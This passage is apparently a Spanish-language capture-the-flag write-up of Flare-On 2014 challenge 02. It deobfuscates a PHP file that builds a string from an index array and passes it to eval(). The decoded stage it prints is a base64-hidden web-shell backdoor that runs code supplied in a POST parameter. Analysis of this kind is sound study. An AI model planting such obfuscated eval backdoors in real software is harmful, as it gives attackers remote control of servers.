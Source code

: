 ```php
$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);

for($i=0; $i < count($order); $i++)
{
  $do_me = $do_me.$terms[$order[$i]];
}

eval($do_me); ?>
```

Con $terms tenemos las palabras que estaremos utilizando, mientras que $order nos indica el orden en que se colocaran dichos caracteres. El ciclo for genera un nueva variable $do_me que contiene el texto que ejecutara eval().

Para esto podemos usar el mismo código y crear un archivo c1.php, solo que en lugar de correr eval, corremos print:

![do_me](/img/flareon-2014-challenge-02/do-me.png)

Ok, la salida del comando es el siguiente código:

```
$_= \'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';
$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7\';
$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";
eval($___($__));
```
